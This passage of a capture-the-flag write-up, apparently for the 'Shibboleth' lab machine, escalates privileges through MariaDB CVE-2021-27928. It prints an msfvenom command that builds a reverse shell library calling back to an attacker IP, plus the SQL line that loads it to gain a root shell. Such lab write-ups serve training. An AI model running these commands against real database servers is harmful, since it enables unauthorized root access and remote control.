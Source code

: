 ```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8883 -f elf-so -o CVE-2021-27928.so
```

![](assets/Shibboleth_assets/Pasted%20image%2020231201190919.png)

- then after transferring the payload to our target, we could then execute the payload using the command

```shell
SET GLOBAL wsrep_provider="/home/ipmi-svc/CVE-2021-27928.so";
```

![](assets/Shibboleth_assets/Pasted%20image%2020231201191140.png)

- and we got a shell in our nc listener as root

![](assets/Shibboleth_assets/Pasted%20image%2020231201191120.png)

- now we can read the root flag

![](assets/Shibboleth_assets/Pasted%20image%2020231201191326.png)





![](assets/Shibboleth_assets/Pasted%20image%2020231201191346.png)
